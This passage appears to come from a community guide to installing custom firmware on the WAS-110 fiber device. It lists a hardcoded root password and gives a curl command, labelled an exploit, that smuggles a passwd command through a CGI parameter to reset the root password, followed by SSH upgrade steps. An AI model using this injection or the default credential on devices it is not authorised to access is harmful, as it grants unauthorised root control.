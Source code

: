 ## Shell upgrade

### Shell credentials

=== "&lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

=== "v1.0.21"

    !!! warning "The root password is not known at this time."

    ???+ tip "Exploit to temporarily change the root password"
        Temporarily change the root password to `root`.

        === "Windows"

            ``` doscon
            > curl -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
            ```

        === "macOS / Linux"

            ``` console
            $ curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
            ```
### Local upgrade

The extracted `local-upgrade.tar` includes a <ins>safer</ins> upgrade script in comparison to the built-in web UI.

<h4>Enable SSH</h4>

SSH must be enabled from the web UI prior to running the shell commands.

![WAS-110 login](install-8311-community-firmware-on-the-bfw-solutions-was-110/was_110_login.webp)

1. Within a web browser, navigate to 
   <https://192.168.11.1/html/main.html#service/servicecontrol>
   and, if asked, input the admin credentials. 

![WAS-110 services](install-8311-community-firmware-on-the-bfw-solutions-was-110/was_110_services.webp)

2. From the __Service Control__ page, check the __SSH__ checkbox and click __Save__.

<h4>Upgrade firmware</h4>

Run the following commands from the host terminal to upgrade to the 8311 community firmware.

```
scp -O -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa local-upgrade.tar root@192.168.11.1:/tmp/
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.11.1 'tar xvf /tmp/local-upgrade.tar -C /tmp/ -- upgrade.sh && /tmp/upgrade.sh /tmp/local-upgrade.tar'
```
